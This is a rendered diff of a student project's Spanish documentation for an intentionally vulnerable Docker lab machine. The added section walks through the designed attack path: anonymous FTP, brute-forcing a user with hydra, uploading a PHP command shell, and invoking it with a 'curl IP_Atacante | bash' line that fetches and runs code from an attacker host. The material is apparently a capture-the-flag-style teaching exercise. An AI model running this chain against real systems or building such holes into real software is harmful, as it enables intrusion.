

Before and after one commit to azraelp/Proyecto-Final, a Markdown page: EntregaFinal/Documentación Final.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

```diff
--- a/EntregaFinal/Documentación Final.md
+++ b/EntregaFinal/Documentación Final.md
@@ -159,3 +159,21 @@ CMD service apache2 start && service vsftpd start && /usr/sbin/sshd -D
 - Abrimos un terminal y nos ponemos como sudo(sudo su).
 - En la misma ruta donde esta el archivo dockerfile ejecutamos el siguiente comando: docker build -t marcositb/grupo4_insecure_design:v1.0 . para crear la imagen.
 - Una vez creada la iniciamos haciendo un docker run marcositb/grupo4_insecure_design:v1.0
+
+## Que vulnerabilidades hemos hecho y como las hemos implementado:
+
+Para empezar tenemos una web inspirada en la serie The Originals. Hemos implementado los servicios apache, ftp y ssh.
+
+En ftp hemos dejado activo el usuario anonymous, este no puede hacer nada, unicamente get y ls. Al hacer este ls puede observar que tiene una carpeta con un nombre de usuario.
+
+El atacante debera hacer un hydra en este usuario para sacar la contraseña, este usuario no tiene nada dentro, pero si tiene permisos diferentes como el de subir un fichero.
+
+Tendra que subir un archivo php para ejecutar comandos desde la web.
+
+La maquina atacante tendra lo siguiente:
+
+- Un archivo html con codigo bash dento.
+- Un terminal abierto para ponernos en escucha en http.
+
+Una vez tenemos esto en la maquina atacante, desde la web ponemos la ruta del archivo que hemos subido con el codigo php para hacer comandos, y añadimos ?cmd=curl IP_Atacante | bash.
+Y en el terminal podemos observar que nos hemos registrado como www-data.
```
